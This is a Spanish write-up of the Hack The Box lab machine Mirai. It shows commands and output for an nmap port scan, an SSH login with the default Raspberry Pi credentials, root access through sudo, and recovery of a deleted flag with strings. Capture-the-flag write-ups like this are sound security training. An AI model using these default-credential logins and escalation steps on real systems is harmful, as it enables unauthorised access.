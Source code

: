 # WriteUp de la máquina Mirai (Hack The Box)

## Reconocimiento inicial

### Verificación de la conexión
Comenzamos comprobando si podemos comunicarnos con la máquina objetivo mediante **ping**:

```
➜  Escritorio ping -c 1 10.10.10.48                                                                                                         
PING 10.10.10.48 (10.10.10.48) 56(84) bytes of data.
64 bytes from 10.10.10.48: icmp_seq=1 ttl=63 time=39.5 ms

--- 10.10.10.48 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 39.518/39.518/39.518/0.000 ms
```

El valor `ttl=63` nos indica que la máquina objetivo está ejecutando un sistema operativo basado en Linux. Este valor es característico de sistemas Linux debido a cómo manejan los paquetes ICMP.

### Escaneo de puertos
Procedemos con un escaneo completo de todos los puertos TCP para identificar los servicios activos en la máquina. Usamos `nmap` con parámetros avanzados para maximizar la velocidad y obtener resultados detallados:

```
➜  Escritorio sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.48 -oG allports
```

#### Resultado del escaneo:
```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-17 06:03 CET
Initiating SYN Stealth Scan at 06:03
Scanning 10.10.10.48 [65535 ports]
Discovered open port 53/tcp on 10.10.10.48
Discovered open port 22/tcp on 10.10.10.48
Discovered open port 80/tcp on 10.10.10.48
Discovered open port 1240/tcp on 10.10.10.48
Discovered open port 32400/tcp on 10.10.10.48
Discovered open port 32469/tcp on 10.10.10.48
Completed SYN Stealth Scan at 06:04, 11.74s elapsed (65535 total ports)
Nmap scan report for 10.10.10.48
Host is up, received user-set (0.042s latency).
Scanned at 2025-01-17 06:03:56 CET for 12s
Not shown: 65529 closed tcp ports (reset)
PORT      STATE SERVICE   REASON
22/tcp    open  ssh       syn-ack ttl 63
53/tcp    open  domain    syn-ack ttl 63
80/tcp    open  http      syn-ack ttl 63
1240/tcp  open  instantia syn-ack ttl 63
32400/tcp open  plex      syn-ack ttl 63
32469/tcp open  unknown   syn-ack ttl 63
```

Se identifican varios puertos abiertos, siendo el **puerto 22 (SSH)** especialmente relevante, ya que podría permitirnos acceder al sistema directamente.

## Explotación inicial

### Acceso SSH
Una búsqueda rápida en Google revela que los sistemas **Raspberry Pi** utilizan un usuario y contraseña predeterminados por defecto:
- Usuario: `pi`
- Contraseña: `raspberry`

Probamos estas credenciales para conectarnos mediante SSH:

```
➜  Escritorio ssh pi@10.10.10.48
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
```

Logramos acceso exitoso con las credenciales predeterminadas. Es importante destacar que este es un riesgo común en sistemas no configurados adecuadamente.

### Verificación de privilegios
Una vez dentro, verificamos los grupos a los que pertenece el usuario `pi`:

```
pi@raspberrypi:~$ id
uid=1000(pi) gid=1000(pi) groups=1000(pi),4(adm),20(dialout),24(cdrom),27(sudo),29(audio),44(video),46(plugdev),60(games),100(users),101(input),108(netdev),117(i2c),998(gpio),999(spi)
```

El usuario pertenece al grupo **sudo**, lo que permite ejecutar comandos con privilegios de administrador. Escalamos privilegios fácilmente con:

```
pi@raspberrypi:~$ sudo su
root@raspberrypi:/home/pi# whoami
root
```

Esto nos da acceso completo como superusuario.

## Búsqueda de flags

### Flag de usuario
Exploramos el directorio del usuario `pi` y encontramos la flag de usuario:

```
root@raspberrypi:/home/pi/Desktop# ls
Plex  user.txt
```

Obtenemos el contenido de `user.txt` para completar esta parte del desafío.

### Flag de root
En el directorio raíz, identificamos un archivo `root.txt`:

```
root@raspberrypi:~# ls
root.txt
root@raspberrypi:~# cat *
I lost my original root.txt! I think I may have a backup on my USB stick...
```

El mensaje sugiere que la flag está en un dispositivo USB conectado al sistema.

### Análisis del dispositivo USB
Usamos `df -h` para listar los sistemas de archivos montados y encontramos un dispositivo USB en `/media/usbstick`:

```
root@raspberrypi:/# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
```

Dentro del USB encontramos el archivo `damnit.txt`:

```
root@raspberrypi:/media/usbstick# cat damnit.txt
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Para recuperar los datos eliminados, utilizamos `strings` para inspeccionar el contenido del dispositivo USB:

```
root@raspberrypi:/# strings /dev/sdb
...
root.txt
3***483143ff12ec505d026fa1******
```

Recuperamos con éxito la flag de root desde el dispositivo USB.

## Conclusión
Hemos obtenido ambas flags, lo que completa la resolución de la máquina **Mirai**. Este writeup resalta la importancia de:

1. Cambiar las credenciales predeterminadas en sistemas IoT como Raspberry Pi.
2. Implementar configuraciones de seguridad adecuadas para minimizar riesgos.

Una máquina interesante para reforzar conceptos básicos de ciberseguridad.
